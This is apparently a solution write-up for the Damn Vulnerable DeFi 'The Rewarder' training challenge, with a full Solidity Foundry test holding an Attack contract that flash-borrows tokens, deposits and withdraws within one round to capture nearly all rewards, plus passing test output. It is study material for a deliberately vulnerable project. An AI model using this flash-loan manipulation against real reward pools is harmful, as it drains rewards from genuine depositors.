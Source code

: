 # Damn Vulnerable DeFi (Foundry version)

- [Scope](#scope)
- [Plan](#plan)
- [Solution](#solution)
  - [Proof of Concept](#proof-of-concept)

## Challenge #5 - The rewarder - Description

There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

## Scope

| File Name                                                                   | SHA-1 Hash                               |
| --------------------------------------------------------------------------- | ---------------------------------------- |
| damn-vulnerable-defi-foundry/src/Contracts/the-rewarder/AccountingToken.sol | 5cc4fc8b8a94843f2b1be925745213c3cd9e7ff5 |
| damn-vulnerable-defi-foundry/src/Contracts/the-rewarder/FlashLoanerPool.sol | a1651046810d5419b9a2f16aab6d3cb8034e9a29 |
| damn-vulnerable-defi-foundry/src/Contracts/the-rewarder/RewardToken.sol     | b679fb4633357d6f762374af9bce554076ac57a1 |
| damn-vulnerable-defi-foundry/src/Contracts/the-rewarder/TheRewarderPool.sol | 20bc3fb225e1fe7e67f74521a4ea01d4956472ac |

## Plan

The description contains already a hint. Most probably we will have to take a flash loan after the current round and claim most/all the rewards for us.

## Solution

<details>
    <summary>Description</summary>

In function `flashLoan()` of `FlashLoanerPool` there is a check that the [borrower must be a contract](https://github.com/cRat1st0s/damn-vulnerable-defi-foundry/blob/b1b61dfe28cbdd8a7f4d3b3e1b73cf2963afc750/src/Contracts/the-rewarder/FlashLoanerPool.sol#L29) and we will have to implement our own [receiveFlashLoan](https://github.com/cRat1st0s/damn-vulnerable-defi-foundry/blob/b1b61dfe28cbdd8a7f4d3b3e1b73cf2963afc750/src/Contracts/the-rewarder/FlashLoanerPool.sol#L33).

1.  We fast-forward 5 days.
2.  Call `flashLoan` with `TOKENS_IN_LENDER_POOL` from our `Attack` contract.
3.  `deposit` to `theRewarderPool` to trigger also the `distributeRewards`.
4.  `withdraw` to pay back the loan as we have already claimed our rewards.
5.  `transfer` the rewards to us.

</details>

<details>
    <summary>damn-vulnerable-defi-foundry/test/Levels/the-rewarder/TheRewarder.t.sol</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {Utilities} from "../../utils/Utilities.sol";
import "forge-std/Test.sol";

import {DamnValuableToken} from "../../../src/Contracts/DamnValuableToken.sol";
import {TheRewarderPool} from "../../../src/Contracts/the-rewarder/TheRewarderPool.sol";
import {RewardToken} from "../../../src/Contracts/the-rewarder/RewardToken.sol";
import {AccountingToken} from "../../../src/Contracts/the-rewarder/AccountingToken.sol";
import {FlashLoanerPool} from "../../../src/Contracts/the-rewarder/FlashLoanerPool.sol";

contract TheRewarder is Test {
    uint256 internal constant TOKENS_IN_LENDER_POOL = 1_000_000e18;
    uint256 internal constant USER_DEPOSIT = 100e18;

    Utilities internal utils;
    FlashLoanerPool internal flashLoanerPool;
    TheRewarderPool internal theRewarderPool;
    DamnValuableToken internal dvt;
    address payable[] internal users;
    address payable internal attacker;
    address payable internal alice;
    address payable internal bob;
    address payable internal charlie;
    address payable internal david;

    function setUp() public {
        utils = new Utilities();
        users = utils.createUsers(5);

        alice = users[0];
        bob = users[1];
        charlie = users[2];
        david = users[3];
        attacker = users[4];

        vm.label(alice, "Alice");
        vm.label(bob, "Bob");
        vm.label(charlie, "Charlie");
        vm.label(david, "David");
        vm.label(attacker, "Attacker");

        dvt = new DamnValuableToken();
        vm.label(address(dvt), "DVT");

        flashLoanerPool = new FlashLoanerPool(address(dvt));
        vm.label(address(flashLoanerPool), "Flash Loaner Pool");

        // Set initial token balance of the pool offering flash loans
        dvt.transfer(address(flashLoanerPool), TOKENS_IN_LENDER_POOL);

        theRewarderPool = new TheRewarderPool(address(dvt));

        // Alice, Bob, Charlie and David deposit 100 tokens each
        for (uint8 i; i < 4; i++) {
            dvt.transfer(users[i], USER_DEPOSIT);
            vm.startPrank(users[i]);
            dvt.approve(address(theRewarderPool), USER_DEPOSIT);
            theRewarderPool.deposit(USER_DEPOSIT);
            assertEq(theRewarderPool.accToken().balanceOf(users[i]), USER_DEPOSIT);
            vm.stopPrank();
        }

        assertEq(theRewarderPool.accToken().totalSupply(), USER_DEPOSIT * 4);
        assertEq(theRewarderPool.rewardToken().totalSupply(), 0);

        // Advance time 5 days so that depositors can get rewards
        vm.warp(block.timestamp + 5 days); // 5 days

        for (uint8 i; i < 4; i++) {
            vm.prank(users[i]);
            theRewarderPool.distributeRewards();
            assertEq(
                theRewarderPool.rewardToken().balanceOf(users[i]),
                25e18 // Each depositor gets 25 reward tokens
            );
        }

        assertEq(theRewarderPool.rewardToken().totalSupply(), 100e18);
        assertEq(dvt.balanceOf(attacker), 0); // Attacker starts with zero DVT tokens in balance
        assertEq(theRewarderPool.roundNumber(), 2); // Two rounds should have occurred so far

        console.log(unicode"🧨 Let's see if you can break it... 🧨");
    }

    function testExploit() public {
        /**
         * EXPLOIT START *
         */
        vm.warp(block.timestamp + 5 days);
        vm.prank(attacker);
        Attack attack = new Attack(flashLoanerPool, theRewarderPool, dvt, attacker);
        attack.pwn();
        /**
         * EXPLOIT END *
         */
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }

    function validation() internal {
        assertEq(theRewarderPool.roundNumber(), 3); // Only one round should have taken place
        for (uint8 i; i < 4; i++) {
            // Users should get negligible rewards this round
            vm.prank(users[i]);
            theRewarderPool.distributeRewards();
            uint256 rewardPerUser = theRewarderPool.rewardToken().balanceOf(users[i]);
            uint256 delta = rewardPerUser - 25e18;
            assertLt(delta, 1e16);
        }
        // Rewards must have been issued to the attacker account
        assertGt(theRewarderPool.rewardToken().totalSupply(), 100e18);
        uint256 rewardAttacker = theRewarderPool.rewardToken().balanceOf(attacker);

        // The amount of rewards earned should be really close to 100 tokens
        uint256 deltaAttacker = 100e18 - rewardAttacker;
        assertLt(deltaAttacker, 1e17);

        // Attacker finishes with zero DVT tokens in balance
        assertEq(dvt.balanceOf(attacker), 0);
    }
}

contract Attack {
    uint256 internal constant TOKENS_IN_LENDER_POOL = 1_000_000e18;

    FlashLoanerPool internal flashLoanerPool;
    TheRewarderPool internal theRewarderPool;
    DamnValuableToken internal dvt;
    address attacker;

    constructor(
        FlashLoanerPool _flashLoanerPool,
        TheRewarderPool _theRewarderPool,
        DamnValuableToken _dvt,
        address _attacker
    ) {
        flashLoanerPool = _flashLoanerPool;
        theRewarderPool = _theRewarderPool;
        dvt = _dvt;
        attacker = _attacker;
    }

    function receiveFlashLoan(uint256 borrowAmount) external {
        dvt.approve(address(theRewarderPool), borrowAmount);
        theRewarderPool.deposit(borrowAmount);
        theRewarderPool.withdraw(borrowAmount);
        dvt.transfer(address(flashLoanerPool), borrowAmount);
        uint256 rewardBalance = theRewarderPool.rewardToken().balanceOf(address(this));
        theRewarderPool.rewardToken().transfer(attacker, rewardBalance);
    }

    function pwn() external {
        flashLoanerPool.flashLoan(TOKENS_IN_LENDER_POOL);
    }
}
```

</details>

### Proof of Concept

```
./run.sh 5
[⠢] Compiling...
[⠰] Compiling 1 files with 0.8.17
[⠔] Solc 0.8.17 finished in 1.10s
Compiler run successful (with warnings)

Running 1 test for test/Levels/the-rewarder/TheRewarder.t.sol:TheRewarder
[PASS] testExploit() (gas: 911018)
Logs:
  🧨 Let's see if you can break it... 🧨

🎉 Congratulations, you can go to the next level! 🎉

Test result: ok. 1 passed; 0 failed; finished in 2.39ms
```
